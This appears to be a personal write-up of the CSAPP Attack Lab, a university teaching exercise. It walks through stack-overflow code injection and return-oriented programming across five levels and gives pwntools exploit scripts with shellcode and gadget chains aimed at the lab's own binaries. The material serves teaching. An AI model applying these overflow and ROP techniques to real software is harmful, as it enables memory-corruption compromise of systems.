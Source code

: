 ```yaml
---
title: CSAPP attacklab
date: 2022-06-16 23:45:00
category: Writeup
tags:
  - CSAPP Labs
---
```


This is the writeup for CSAPP Attacklab

Tool: IDA/Ghidra, pwndbg, pwntools

## Part I: Code Injection Attacks

## Level 1

Simple stack overflow, without the protection of canary and ASLR. Debugger check the stack frame, find out that total 40 bytes offset away from the return address. So make a 40 bytes padding then follow the address of touch1. Done

## Level 2

It checks the argument of touch2 to be the cookie that within the `cookie.txt` file. The stack is executable, so inject a shellcode into the stack then return to the stack to execute the shellcode to make `rdi` to be the correct cookie. 

## Level 3

Level 3 require a pointer to check, however, some part of the stack will be wiped out by the function `hexmatch` and `touch3`, so store the string in somewhere away from the place they wipe out will be fine. 

Solution for Part I:

```python
#!/usr/bin/python3

from pwn import *

context.arch = "amd64"
context.encoding = "latin"
context.log_level = "INFO"
warnings.simplefilter("ignore")

cookie = p32(0x59b997fa)
touch1 = p32(0x4017c0)
touch2 = p32(0x4017ec)
touch3 = p32(0x4018fa)

# p = gdb.debug(["./ctarget", "-q"])
p = process(["./ctarget", "-q"])

# exp for touch1
# p.sendline(b"A"*40 + touch1);

# exp for touch2
# shellcode = """
#     mov rdi, 0x59b997fa
#     push 0x4017ec
#     ret
# """
# print(len(asm(shellcode)))
# p.sendline(asm(shellcode) + b"A"*27 + p32(0x5561dc78));

# exp for touch3
shellcode = """
    mov rdi, 0x5561dca8
    push 0x4018fa
    ret
"""
print(len(asm(shellcode)))
p.sendline(asm(shellcode) + b"A"*27 + p64(0x5561dc78) + b"59b997fa");

print(p.readall().decode())
```

## Part II: Return-Oriented Programming

### Level 4

Same with Level 2, but with random memory address. So we are unable to access the code that we inject to the stack. The core part on `touch2` is to make `rdi = cookie`. With the help of ROPgadgets, we can find from the `farm.c` that there are two place to reach our goal:  

```assembly
getval_280:
0x4019cc
58 	 	 pop rax
90 	 	 nop
c3 	 	 ret

setval_426:
at 0x4019c5
48 89 c7 mov rdi, rax
90 		 nop
c3 		 ret
```

### Level 5

Same thing. Try to make `[rdi] = cookie`. You may find a gadget in `setval_350` that store `rsp` to `rax`. But the hard thing is that if we place where `rsp` is pointing to be the cookie value, we are unable to further jump to other places because the cookie take the place that original used for another return address. 

So, in order to bypass this issue, we can add an offset to `rsp` by `add_xy` function. So that it will point away from current position and we can store cookie string to other places. 

Solution for Part II:

```python
#!/usr/bin/python3

from pwn import *

context.arch = "amd64"
context.encoding = "latin"
context.log_level = "INFO"
warnings.simplefilter("ignore")

cookie = p32(0x59b997fa)
touch2 = p32(0x4017ec)
touch3 = p32(0x4018fa)

p = gdb.debug(["./rtarget", "-q"])
# p = process(["./rtarget", "-q"])

# exp for touch2
# p.sendline(b"A"*40 + p64(0x4019cc) + p64(0x59b997fa) + p64(0x4019c5) + p64(0x4017ec));

# exp for touch3
p.sendline(b"A"*40 + p64(0x4019cc) + p64(0x20) + p64(0x401a42) + p64(0x401a69) + p64(0x401a27) + p64(0x401a06) + p64(0x4019c5)
        + p64(0x4019d6) + p64(0x4019c5) + p64(0x4018fa) + b"59b997fa");

print(p.readall().decode())
```







